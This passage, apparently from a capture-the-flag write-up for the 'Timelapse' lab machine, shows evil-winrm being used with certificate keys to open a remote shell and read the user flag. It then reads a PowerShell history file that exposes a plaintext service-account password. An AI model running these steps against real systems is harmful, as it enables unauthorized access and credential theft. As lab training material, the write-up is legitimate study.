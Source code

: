 ### Foothold + User Flag

I used [evil-winrm](https://github.com/Hackplayers/evil-winrm) with the public and private keys to gain foothold into the system and get the user flag.

```console
$ evil-winrm -i 10.10.11.152 -S -c timelapse-pub.pem -k timelapse-priv.pem -r timelapse
Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\legacyy\Documents> dir ../Desktop

    Directory: C:\Users\legacyy\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/16/2022   5:58 AM             34 user.txt


*Evil-WinRM* PS C:\Users\legacyy\Documents> type ../Desktop/user.txt
<FLAG>
```

## System Enumeration

I wasn't sure what to do next from here, so I referred to the official forum discussion for hints. One hint was to check the console history for this user.

```console
*Evil-WinRM* PS C:\Users\legacyy\Desktop> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
